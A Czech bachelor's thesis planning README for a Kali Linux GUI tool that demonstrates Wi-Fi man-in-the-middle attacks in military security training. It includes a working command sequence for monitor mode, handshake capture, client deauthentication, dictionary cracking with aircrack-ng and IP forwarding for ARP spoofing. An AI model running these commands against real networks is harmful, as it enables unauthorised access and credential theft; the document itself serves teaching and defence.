

# Bakalářská práce


## Demonstrační nástroj Man-in-the-middle útoků

### Cíl práce:
Cílem práce je navrhnout a implementovat demonstrační nástroj k popisu a  vysvětlení principu Man-in-the-middle (MITM) útoků na bezdrátové sítě. Tento nástroj poslouží k názorným ukázkám během školení kybernetické bezpečnosti především pro příslušníky Armády České republiky, proto musí být uživatelské rozhraní dostatečně intuitivní a přehledné. Součástí nástroje bude i popis relevantních protiopatření, které zvyšují imunitu proti MITM útokům. Nástroj bude implementován na platformě KALI Linux. Rovněž budou vytvořeny návodné a dokumentační nástroje (poster, brožura) pro cílové publikum pro zvýšení účinku školení s využitím tohoto nástroje.


### Základní technologie:
- Kali Linux 
    - airdump-ng, aireplay-ng, aircrack-ng
- externí USB Wi-Fi adaptér s možností přepuntí do monitorovacího módu
- vnitřní funkcionalita v Pythonu - interaktivní script 
- GUI nadstavba v Pythonu

---
### Osnova
1. Analýza síťových protokolů  
    1.1 OSI model  
    1.2	ARP  
    1.3	Handshake  
    1.4	WEP  
    1.5	WPA, WPA2  
    1.6	WPS  
    1.7	SSL  
2. Analýza vektorů útoku  
    2.1	Aplikace MITM  
    2.2	ARP poisoning + (MAC flooding)  
    2.3	SSLsplit  
    2.4	Analýza existujících nástrojů  
3. Návrh implementace  
    3.1	Zdůvodnění použitého jazyka implementace  
    3.2	Návrh funkcionalit konzolového back-endu  
    3.3	Návrh GUI  
4. Implementace  
    4.1	Implementace konzolového back-endu  
    4.2	Implementace GUI  
5. Testování  
    5.1	Testy funkčnosti  
    5.2	Testy výkonosti  

---
### Roadmap
- [x] 22.10.2023 – Cíl a název práce, (předběžný) Úvod
- [x] 12.11.2023 – Dokončení rešerše a studování zdrojů
- [x] 26.11.2023 – Návrh jedné kompletní kapitoly z teoretické části včetně správných citací
- [ ] 10.12.2023 – Kompletní analýza vektorů útoku
- [ ] 24.12.2023 – Návrh abstraktu, hotová první verze teoretické části BP  

- [ ] 07.01.2024 – Osvěžení si vývojového jazyku a první funkcionality konzolové verze aplikace
- [ ] 21.01.2024 – Dokončení MITM útoku

- [ ] 04.02.2024 – Dokončení SSLsplit funkcionality
- [ ] 18.02.2024 – První funkční konzolová verze aplikace

- [ ] 03.03.2024 – Doladění konzolové verze, začátek práce na GUI
- [ ] 17.03.2024 – Dokončení uživatelského rozhraní
- [ ] 24.03.2024 – Návrh testů, Dopsání praktické části práce
- [ ] 31.03.2024 – Korektura textu, finální úpravy, zadání BP k tisku

- [ ] 14.04.2024 - Odevzdání hotové BP v elektronické a tištěné podobě

---
### Rešerše:


- [x] Je potřeba Wi-Fi adaptér, který podporuje "monitor mode" (aka promiscuous mode) 
    - monitorovací mód je potřeba k zachytávání všeech rámců, které se šíří v oblasti dosahu signálu AP/zařízení
    - standardní adaptéry tuto možnost kvůli bezpečnosti nepovolují
    - umí to spíše starší adaptéry
    - nutná podmínka pro správnou funkčnost nástrojů aimon-ng, aircrack-ng, aireplay-ng...
    - :heavy_check_mark: zakoupen USB adaptér TP-Link Archer U ACT Dual Band (https://www.alza.cz/tp-link-archer-t4u-ac1300-dual-band-d1530247.htm)
        - https://deviwiki.com/wiki/List_of_Wireless_Adapters_That_Support_Monitor_Mode_and_Packet_Injection
        - http://linux-wless.passys.nl/query_part.php?brandname=TP-Link
    - jsou potřeba custom ovladače ke zprovoznení monitorovacího módu
    - :heavy_check_mark: funkční jsou:
        - https://github.com/RinCat/RTL88x2BU-Linux-Driver
        - https://github.com/cilynx/rtl88x2bu
- [x] Instalace Kali Linuxu
    - Kali linux nainstalovaný na notebook 
    - funkčí by byla i práce v instalací Kali jako virtuální stroj - _toto bude součástí testování v předposlední kapitole_ - bylo by to výrazně pohodlnější pro kolegy v AČR, kteří pak budou můj nástroj používat. Málokdo si může na služebním zařízení ainstalovat OS přímo na železo (vlastní zkušenost)
        - [x] podmínkou tohoto přístupu je externí USB adaptér (https://www.aircrack-ng.org/doku.php?id=getting_started) - HOTOVO
- [ ] Současný stav
    - Nastudovány tutoriály a knihy o MITM útoku:
        - VELU, Vijay Kumar. **Mastering Kali Linux for Advanced Penetration Testing**. 4th edition, 2022. ISBN 978-1-80181-977-0 - Kapitola 6 Wireless and Bletooth Attacks - _bettercap_, _Wifiphisher_
        - BALOCH, Rafay. **Ethical Hacking and Penetration Testing Guide**. 2015. ISBN: 78-1-4822-3162-5 (eBook - PDF) - Kapitola 6 "Network Sniffing", 11 "Wireless Hacking"
        - WEIDMAN, Georgia. **Penetration Testing, A Hands-on Introducttion to Hacking**. 2014. ISBN-13: 978-1-59327-564-8 - Kapitola 15 Wireless attacks
        - ERICKSON, Jon. **HACKING The Art Of Exploitation, 2nd edition**. 2008. ISBN-13: 978-1-59327-144-2 - Kapitola 4 Networking
        - FORSHAW, James. **Attacking Network Protocols, A Hacker's Guide to Capture, Analysis and Exploitation**. 2018. ISBN-13: 978-1-59327-750-5 - Kapitola 4 - Advanced application traffic capture - Ettercap
        - https://www.youtube.com/watch?v=WfYxrLaqlN8
    - Všechny zdroje mají jedno společné: **pracují s konzolovými aplikacemi**, to je z mých zkušeností pro demonstraci čehokoliv laikům naprosto nepřípustné!
        - kdykoliv posluchač zahlédne konzolové okno, tak vypíná mozek
        - důraz demonstračního nástroje je nejen na ukázání toho, že Wi-Fi může být "hacknuta" relativně jednoduše, doslova na pár kliknutí, ale také musí být nezbytnou součástí doplňující text s vysvětlivkami a možnostmi mitigace jednotlivých kroků útoku (např. v části lámání hesla by měly být zobrazeny i stručně zásady bezpečného hesla apod.) - **GUI je nezbytné!** 
---
## "Průmyslový standard" MITM útoku: :heavy_check_mark:
https://linuxhint.com/install_aircrack-ng_ubuntu/
1. Přepnutí adaptéru do monitorovacího módu:  
    - Zjištění názvu adaptéru
        ```s
        iwconfig
        ```
        
        standarně bude mít název _wlan0_ a bude mít _Mode: Managed_
    - Vypnutí (zapnutí adaptéru)
        ```s
        ifconfig wlan0 down(up)
        ```   
    - Přepnutí zvoleného adaptéru do monitorovacího módu:
        ```s
        sudo airmon-ng start wlan0
        sudo airmon-ng check kill
        ```
        ^ toto vypne kolidující služby, aby přepuntí bylo úspěšné. Undo je:
        ```s
        service NetworkManager restart
        ```
        
        
2. Zachytíme EAPOL rámce s přihlašovacími údaji
    - Start zachytávání všech paketů v dosahu - skenování okolí
        Toto zachytí rámce s MAC adresou AP
        ```s
        sudo airodump-ng wlan0mon
        ```
        
        Po zvolení požadovaného cílového AP (-d == --bssid) a kanálu (-c), záchyt zapíšeme do souboru pro pozdější analýzu např. ve Wiresharku (s filtrem EAPOL pro vyfiltrování WPA handshaku)
        ```s
        sudo airodump-ng -c11 -d :::BB:02 -w SOUBOR wlanmon
        ```
        NECHÁME BĚŽET V JEDNOM OKNĚ...
    - Ve DRUHÉM OKNĚ spustíme deautentizaci cíle:
        -c = client, -a = access point
        ```s
        sudo aireplay-ng --deauth 0 -c ::::phone -a :::BB:02 wlan0mon 
        ```
        
        To zapříčiní opětovnou snahu cíle (-c) o připojení se a poslání EAPOL paketů, které jsou zachyceny v prním okně...
3. Úklid
    - Vypnu monitorovací mód a opět zapnu standardní chování Wi-Fi (Managed mode)
        ```s
        sudo airmon-ng stop wlan0mon
        service NetworkManager restart
        ```
---
4. Lámání hesla ze zachyceného souboru:
    - Vytvoření slovníku pro lámání hesla pomocí nástroje **crunch** min max znakyabc123+ů§,.-_ -o = output_soubor
    ```s
    crunch 8 8 0123456789 -o HESLA.txt 
    ```
    - Lámání zachycené komunikace oproti slovníku rockyou.txt:
    ```s
    aircrack-ng SOUBOR.cap -w /usr/share/wordlists/rockyou.txt 
    ```
    
5. Máme heslo od Wi-Fi -> můžeme se připojit a začít páchat neplechu:
    - ARP spoofing
    Zapnutí forwardování
    ```
    cat /proc/sys/net/ipv4/ip_forward
    echo 1 > /proc/sys/net/ipv4/ip_forward
    ```  
    - -> skenování sítě: **nmap** **TODO**:x:
    - -> Sociální inženýrství: falešné přihlašovací okno **TODO**:x:
    - -> SSL split - **TODO**:x:
    - krádež cookies, credentials
---    
## Nástroje automatizující MITM útoky:
### 1. Ettercap
https://www.youtube.com/watch?v=CW0Mf9qGBOc
Aplikace použitelná až po připojení k síti. Nepopisuje jednotlivé kroky útoku. Zaznamenává traffic, který je potřeba posléze analyzovat např. Wiresharkem
```
sudo ettercap -G
```
- GUI aplikace :check:
- bez doprovodn0ho infa a bez vysvětlivek :x:
    

    

### 2. bettercap
https://www.hackers-arise.com/post/wi-fi-hacking-part-17-wi-fi-hacking-with-bettercap
- Mocný nástroj splňující všechny požadavky
- Konzolový bez GUI :x:
    

### 3. Wifiphisher
https://www.youtube.com/watch?v=ay-77C9ZZQM
- tool pro tvorbu předdefinovaných phishingových útoků na WiFi sítě. 
- neukazuje MITM a lámání hesel :x:

---
# Závěr z rešerše: 
## Existují nástroje, které zcela nebo částečně plní požadovanou funkcionalitu. Všechny se ale zaměřují na splnění úkolu bez zbytečného výukového balastu. Je potřeba využít dostupné konzolové tooly a obalit je GUI, které postupnými demonstrativně vysvětlenými kroky provedou celou procedurou útoku. 


